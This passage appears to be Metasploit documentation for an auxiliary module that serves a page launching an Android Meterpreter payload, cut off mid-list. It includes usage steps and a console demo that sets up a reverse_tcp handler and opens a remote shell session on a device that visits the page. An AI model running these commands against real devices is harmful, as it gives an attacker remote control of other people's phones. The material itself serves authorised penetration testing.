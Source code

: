 ```
4. Do: ```run```. At this point, the web server should be up.
5. On your Android device, open the native web browser, and go the URL generated by the auxiliary
   module.
6. The Android handler should get a session like the following demo:

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD android/meterpreter/reverse_tcp
PAYLOAD => android/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.199
LHOST => 192.168.1.199
msf exploit(handler) > set EXITONSESSION false
EXITONSESSION => false
msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.199:4444 
msf exploit(handler) > [*] Starting the payload handler...

msf exploit(handler) > use auxiliary/server/android_browsable_msf_launch
msf auxiliary(android_browsable_msf_launch) > set URIPATH /test
URIPATH => /test
msf auxiliary(android_browsable_msf_launch) > run

[*] Using URL: http://0.0.0.0:8080/test
[*] Local IP: http://192.168.1.199:8080/test
[*] Server started.
[*] Sending HTML...
[*] Sending stage (62432 bytes) to 192.168.1.207
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.207:47523) at 2016-03-08 15:09:25 -0600
```